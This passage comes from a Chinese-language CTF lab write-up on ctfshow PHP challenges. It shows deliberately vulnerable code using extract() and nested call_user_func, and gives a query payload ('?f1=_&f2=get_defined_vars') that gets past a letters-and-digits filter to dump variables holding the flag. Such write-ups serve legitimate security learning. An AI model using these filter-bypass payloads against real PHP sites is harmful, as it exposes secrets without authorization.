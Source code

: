 ```
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```

> extract() 函数从数组中将变量导入到当前的符号表，使用数组键名作为变量名，使用数组键值作为变量值

![image-20220812183658071](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121836153.png?x-oss-process=hzy)

# web128

> 骚操作

```
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} NULL
```

> f1不能有数字或者字母，然后call_user_func在102讲过，call_user_func() 函数用于调用方法或者变量，第一个参数是被调用的函数，第二个是调用的函数的参数。

> get_defined_vars ( void ) : array 函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义的变量。

```
?f1=_&f2=get_defined_vars
过程是
var_dump(call_user_func(call_user_func($f1,$f2)));
var_dump(call_user_func(call_user_func(_,'get_defined_vars')));
var_dump(call_user_func(get_defined_vars));//输出数组
```

![image-20220812184207684](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208121842822.png?x-oss-process=hzy)

# web129
